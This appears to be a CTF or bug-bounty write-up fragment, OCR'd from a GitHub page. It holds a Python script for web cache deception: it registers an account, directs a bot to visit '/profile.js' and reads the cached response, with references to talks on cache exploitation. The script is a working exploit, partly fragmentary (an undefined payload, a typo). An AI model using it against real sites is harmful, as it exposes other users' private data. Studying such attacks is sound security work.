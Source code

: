 ```python
    print("making account with the following creds = abc123:123")
    requests.post(url + "/register", json={
        "username": "abc123",
        "password": "123",
        "email": "123", })
    respones = requests.post(url, json=payload)


user_token = respones.json()["token"]
print(user_token)

headers = {
    'Authorization': f'Bearer {user_token}',
    'Content-type': 'application/json'
}

my_profile = requests.get(url + "/profile", headers=headers)

print(my_profile.text)

subpath = 'profile.js'
if re.match(r'.*^profile', subpath):
    print(subpath)

else:
    print("not", subpath)

bot = requests.post(url + "/visit", headers=headers, json={"uri": "profile.js"})
print(bot.status_code, bot.text)

cached = requests.get(url + "/profile.js")
print(cached.text)

```

# reference
- nahamSec video [ These Vulnerabilities WILL Make you $100K in 2025 (Bug Bounty Tutorial](https://www.youtube.com/watch?v=fUhBiIpv61Y)
- Great talk by Martin Doyhenard | Security Researcher, PortSwigger [Gotta Cache Em All: Bending the Rules of Web Cache Exploitation](https://www.youtube.com/watch?v=9gvxEhugnVM)